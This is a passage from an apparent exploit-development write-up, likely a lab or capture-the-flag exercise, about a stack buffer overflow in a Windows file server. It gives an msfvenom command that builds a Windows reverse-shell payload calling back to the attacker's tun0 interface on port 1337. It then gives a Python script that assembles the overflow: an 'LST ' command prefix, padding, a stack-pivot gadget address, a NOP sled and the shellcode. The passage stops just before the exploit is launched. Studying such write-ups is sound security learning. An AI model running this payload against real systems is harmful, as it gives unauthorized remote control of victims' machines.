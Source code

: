 ![](img/2023-07-02-19-08-35.png)

Yay! Now we can execute on the stack (we can confirm by executing on the debugger). We also can control the execution to point to our desired Shellcode, so we can send a reverse shell. At the time, I used the following msfvenom command to generate it.

```
msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=1337 -b"\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
```

Let's replace our shellcode variable with the one generated with _msfvenom_. You can verify that it is working in your local VM  before sending the payload if you need to. The only thing and this is maybe due to latency, but  I have to put a _sleep()_ call before sending the payload to avoid some weird crashes, as shown below.

```python
payload  = b""
payload += b"LST "
payload += buf
payload += b"A" * (0x408-len(buf))
payload += b"BBBB" #
payload += p32(filesrv+0x00011396) # Stack pivot add esp, 0xe10
payload += b"\x90" * 64
payload += shellcode
payload += b"\x90" * (0xfb0-len(payload))
r.sendline(payload)
sleep(2)
r.close()
```

Now let's fire up the exploit and....
